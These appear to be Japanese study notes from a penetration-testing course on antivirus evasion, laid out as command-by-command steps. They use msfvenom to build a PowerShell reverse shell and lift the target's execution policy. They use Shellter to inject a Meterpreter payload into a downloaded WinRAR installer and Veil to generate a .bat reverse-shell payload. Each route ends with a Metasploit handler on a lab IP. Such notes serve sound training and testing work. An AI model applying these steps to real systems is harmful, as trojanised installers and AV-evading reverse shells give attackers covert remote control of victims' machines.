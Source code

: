 # AntivirusEvasion

### PowerShell In-Memory Injection

powershellスクリプトを記述する。AVで検知される。kaliの以下に格納した。

```bash
┌──(kali㉿kali)-[~/Documents/tools/powershell]
└─$ ls                                                                im-memory.ps1
```

![image-20230105133939946](img/AntivirusEvasion/image-20230105133939946.png)

msfvenomでリバースシェルを作成しps1を更新する。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali LPORT=4444 -f powershell
```

攻撃対象ホストで同様にファイルを作成する。（例: av_test.ps1)

実行する前にExcecutionポリシーを無効化する。

```
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### shellter

* インストール

  ```
  apt-cache search shellter
  sudo apt install shellter
  ```

  ```
  sudo su -
  dpkg --add-architecture i386 && apt-get update &&
  apt-get install wine32:i386
  ```

  ```
  mkdir -p ~/myapp/prefix
  export WINEPREFIX=$HOME/myapp/prefix
  export WINEARCH=win32
  export WINEPATH=$HOME/myapp
  wineboot --init
  shellter
  ```

* Aを選択する

  ![image-20230105143437763](img/AntivirusEvasion/image-20230105143437763.png)

* 変更するPEをダウンロードして指定する。

  https://www.rarlab.com/download.htm

  ![image-20230105143533845](img/AntivirusEvasion/image-20230105143533845.png)

  ![Figure 8: Selecting a target PE in shellter and performing a backup](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/antivirus_evasion/7c49cd2d7e2afd9639c73a1de9b7765a-antivirus_evasion_06.png)

* ステルスモードを有効にする

  ![image-20230105143650976](img/AntivirusEvasion/image-20230105143650976.png)

* ペイロードを選択する

  ![image-20230105143706409](img/AntivirusEvasion/image-20230105143706409.png)

* exeが出来上がるので攻撃対象に配送して、リバースシェルを待ち受けする。

* msfconsoleの場合

  ```
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
  ```

  ※migrateすることでPEのプロセスが終了してシェルを継続可能とする。



### Veil(.batでEvasionファイルを作成可能)

* ダウンロード

```
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

* 実行

※~/Documents/tools配下にVeilをダウンロードして実行可能な状態になっている

```
┌──(kali㉿kali)-[~/Documents/tools/Veil]
└─$ ./Veil.py 
Veil>: use Evasion
Veil/Evasion>: use powershell/meterpreter/rev_tcp.py 
[powershell/meterpreter/rev_tcp>>]: set LHOST 192.168.119.144
[powershell/meterpreter/rev_tcp>>]: generate
```

* payloadは自動で.batファイルで作成された。batファイルを移動する

```
mv /var/lib/veil/output/source/17-3-5-6.bat ~/Documents/OSCP/17.AntivirusEvasion/ 
```

* 攻撃対象ホストに転送する

```
割愛
```

* msfconsoleのハンドラーで待ち受け

  ```bash
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > exploit
  ```

  